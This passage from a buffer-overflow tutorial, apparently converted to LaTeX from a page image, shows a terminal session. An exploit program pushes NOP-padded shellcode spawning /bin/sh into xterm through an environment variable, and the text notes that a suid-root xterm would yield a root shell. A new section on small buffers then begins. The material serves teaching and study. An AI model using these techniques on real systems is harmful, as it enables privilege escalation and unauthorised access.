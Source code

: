 \documentclass[a4paper]{article}
\begin{document}
\begin{lstlisting}[style=DOS]
H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H???H??

?H???H???H???H???H???H???H???H???H???H???H???H??
Warning: some arguments in previous message were lost
Illegal instruction
$ exit
.
.
.
$ ./exploit4 2148 600
Using address: 0xbffffb54
$ /usr/X11R6/bin/xterm -fg $EGG
Warning: Color name "?^1?FF
                       ?
                        ?V

?1??@??????/bin/sh???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T?

??T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T

???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???

T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T???T??

?T???T???T???T???T???T???T???T???T???T???T???T??
Warning: some arguments in previous message were lost
bash$


\end{lstlisting}


Eureka! Less than a dozen tries and we found the magic numbers. If xterm where installed suid root this would now be a root shell.

\section{Small Buffer Overflows}


There will be times when the buffer you are trying to overflow is so small that either the shellcode wont fit into it, and it will overwrite the return address with instructions instead of the address of our code, or the number of \texttt{NOP}s you can pad the front of the string with is so small that the chances of guessing their address is minuscule. To obtain a shell from these programs we will have to go about it another way. This particular approach only works when you have access to the program’s environment variables.
\end{document}
